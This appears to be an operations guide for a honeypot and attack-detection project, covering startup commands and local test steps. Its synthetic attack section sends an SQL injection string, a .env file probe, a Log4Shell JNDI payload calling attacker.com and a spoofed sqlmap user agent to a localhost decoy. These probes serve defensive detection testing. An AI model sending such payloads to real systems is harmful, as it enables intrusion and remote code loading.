

# Operations Guide: Local Development & Service Workflow

## 1. Development Principles
1. **Incremental Validation**: Never run all services at once before testing individual components in isolation.
2. **Local Controlled Testing**: All attacks are generated using synthetic curl commands or Python test runners targeting `localhost:3000`. No external attack tools are directed outside the sandbox.
3. **Reproducibility**: Environment configurations are kept in `.env.example` templates and loaded explicitly.

---

## 2. Phase 0 Verification
To verify the Phase 0 architecture baseline, compiled signatures, configuration schemas, severity scoring formulas, and MAD anomaly detection algorithms at any time:

```powershell
python scripts/verify-phase0.py
```
Expected output:
```
=================================================================
   VIGILANCE PHASE 0: ARCHITECTURAL & ALGORITHMIC VERIFICATION   
=================================================================
[PASS] Rules List Exists: Loaded 14 rules
[PASS] All 14 Required Attack Categories Present
[PASS] Regex Compilation: Successfully compiled attack regexes
[PASS] Kafka Mode is KRaft
[PASS] Storage Config Complete
[PASS] Severity Scoring Algorithm
[PASS] MAD Anomaly Detection Algorithm
[PASS] Architecture Documents & ADRs
[SUCCESS] Phase 0 Acceptance Criteria 100% Satisfied.
```

---

## 3. Local Startup Sequence (Modes of Operation)

### Mode A: Hybrid Local Development (Recommended for Fast Debugging)
In Hybrid Mode, stateful infrastructure (Kafka, Postgres, Mongo, Redis) runs in lightweight Docker containers, while application code (Honeypot, Ingestion, Backend, Dashboard) runs natively on Windows with hot reload enabled.



### Step 1: Boot Data & Messaging Layer
```powershell
docker compose up -d postgres mongodb redis kafka
```

### Step 2: Initialize Database Schema
```powershell
# Apply PostgreSQL schema
docker exec -i vigilance-postgres psql -U vigilance_admin -d vigilance_analytical < docs/database/schema.sql
```

### Step 3: Run Ingestion Consumer
```powershell
cd services/ingestion
python -m venv venv
.\venv\Scripts\Activate.ps1
pip install -r requirements.txt
python main.py
```

### Step 4: Run Nowhere Esports Intranet (Honeypot Decoy)
```powershell
cd apps/nowhere-intranet
npm install
npm run dev
```

### Step 5: Run FastAPI Backend
```powershell
cd services/backend
uvicorn main:app --reload --host 127.0.0.1 --port 8000
```

### Step 6: Run React Dashboard
```powershell
cd apps/dashboard
npm install
npm run dev
```

---

## 4. Controlled Synthetic Attack Generation

To test signature detection and telemetry ingestion, execute controlled synthetic requests:

### 1. SQL Injection Probe:
```powershell
curl -i "http://localhost:3000/api/v1/tournaments?region=EU' OR '1'='1"
```

### 2. Path Traversal & Sensitive File Canary:
```powershell
curl -i "http://localhost:3000/.env"
```

### 3. Log4Shell & Reconnaissance Probe:
```powershell
curl -i -H "User-Agent: \${jndi:ldap://attacker.com/exploit}" "http://localhost:3000/api/v1/staff"
```

### 4. Scanner Simulation:
```powershell
curl -i -H "User-Agent: sqlmap/1.7.2#stable" "http://localhost:3000/admin/login"
```

---

## 5. Automated Testing Guidelines
- **Unit Tests**: Test regular expressions, scoring math, and Pydantic models in isolation without requiring Docker or network connections.
- **Integration Tests**: Test database writes and Kafka produce/consume loops against running containers.
- **End-to-End Tests**: Send synthetic attacks to port 3000 and verify that SSE clients receive the alert event within 500ms.
